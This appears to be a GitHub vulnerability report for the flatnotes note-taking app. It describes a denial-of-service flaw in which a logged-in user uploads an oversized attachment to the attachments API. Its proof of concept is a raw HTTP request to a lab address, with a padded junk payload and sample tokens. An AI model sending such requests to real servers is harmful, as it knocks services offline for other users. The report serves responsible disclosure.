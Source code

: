 ### Description
Anyone who can log in to flatnotes and upload images through the function can cause DOS , which can prevent others from using it, other API interfaces from being accessed, and server DOS attacks

### Impact  
![image](https://github.com/user-attachments/assets/3f75eeb5-c5cd-4570-92b6-3e3b3fdab0f5)


### Proof of Concept 
```
POST /api/attachments HTTP/1.1
Host: 192.168.137.11:8080
Content-Length: 1440589
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryN20AMdlOKTaspeAy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://192.168.137.11:8080
Referer: http://192.168.137.11:8080/new
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoxNzMzMzg1NzA4fQ.GI9swgQd0pDSP0q4mgLc-pMV94xl4KE5_jJNenZChmc
Connection: keep-alive

------WebKitFormBoundaryN20AMdlOKTaspeAy
Content-Disposition: form-data; name="file"; filename="sword.png"
Content-Type: image/png

PNG
ND®B`
------WebKitFormBoundaryN20AMdlOKTaspeAy--
1234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567123456789012345678901234567890123456789012345671234567890123456789012345678901234567890123456712345678901234567890123456789012345678901234567[attenation:A large amount of useless data]
```
![image](https://github.com/user-attachments/assets/4f958e80-bc72-41f0-bca2-5cb8c9f10a33)



### refer 
[Github project](https://github.com/dullage/flatnotes)  
[origin issue](https://github.com/dullage/flatnotes/issues/259)

